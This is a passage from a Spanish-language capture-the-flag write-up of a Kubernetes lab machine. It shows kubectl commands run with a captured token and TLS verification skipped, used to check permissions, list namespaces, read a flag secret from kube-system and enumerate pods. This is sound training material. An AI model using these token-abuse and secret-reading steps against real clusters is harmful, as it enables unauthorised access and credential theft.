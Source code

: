 ```bash
╰─ lanfran@parrot ❯ /tmp/kubectl --token "$(cat token.txt)" --insecure-skip-tls-verify --server=https://10.10.24.160:6443 auth can-i --list
Resources   Non-Resource URLs   Resource Names   Verbs
*.*         []                  []               [*]
            [*]                 []               [*]

╰─ lanfran@parrot ❯ /tmp/kubectl --token "$(cat token.txt)" --insecure-skip-tls-verify --server=https://10.10.24.160:6443 get namespaces
NAME              STATUS   AGE
default           Active   147d
kube-system       Active   147d
kube-public       Active   147d
kube-node-lease   Active   147d
```
Después de esta sencilla enumeración, conocemos todos los namespaces y ¡tenemos acceso a todos ellos!

¡Ahora obtengamos los sectres del `kube-system`, para peder leer la flag3!

```bash
╰─ lanfran@parrot ❯ /tmp/kubectl --token "$(cat token.txt)" --insecure-skip-tls-verify --server=https://10.10.24.160:6443 get secrets flag3 -o yaml -n kube-system
apiVersion: v1
data:
  flag3.txt: Zmx[REDACTADO]IX0=
kind: Secret
metadata:
  annotations:
    kubectl.kubernetes.io/last-applied-configuration: |
      {"apiVersion":"v1","kind":"Secret","metadata":{"annotations":{},"name":"flag3","namespace":"kube-system"},"stringData":{"flag3.txt":"flag{[REDACTADO]}"},"type":"Opaque"}
  creationTimestamp: "2021-05-31T22:01:30Z"
  name: flag3
  namespace: kube-system
  resourceVersion: "591"
  uid: 599c6a8b-2a93-4253-a02c-6c0a7eccdc3f
type: Opaque
```

## Root / Flag 4

Después de conseguir la bandera 3, intentemos terminar esta máquina, ¡llegando a "root"!

¡Primero obtengamos todos los pods y la información de ellos!

```bash
╰─ lanfran@parrot ❯ /tmp/kubectl --token "$(cat token.txt)" --insecure-skip-tls-verify --server=https://10.10.24.160:6443 get pods                                  ─╯
NAME                     READY   STATUS    RESTARTS   AGE
gitea-0                  1/1     Running   2          147d
nginx-7f459c6889-8slv2   1/1     Running   2          147d


╰─ lanfran@parrot ❯ /tmp/kubectl --token "$(cat token.txt)" --insecure-skip-tls-verify --server=https://10.10.24.160:6443 get pod nginx-7f459c6889-8slv2 -o yaml    ─╯
apiVersion: v1
kind: Pod
metadata:
  creationTimestamp: "2021-05-31T21:57:34Z"
  generateName: nginx-7f459c6889-
  labels:
    app: nginx
    pod-template-hash: 7f459c6889
  name: nginx-7f459c6889-8slv2
[...]
```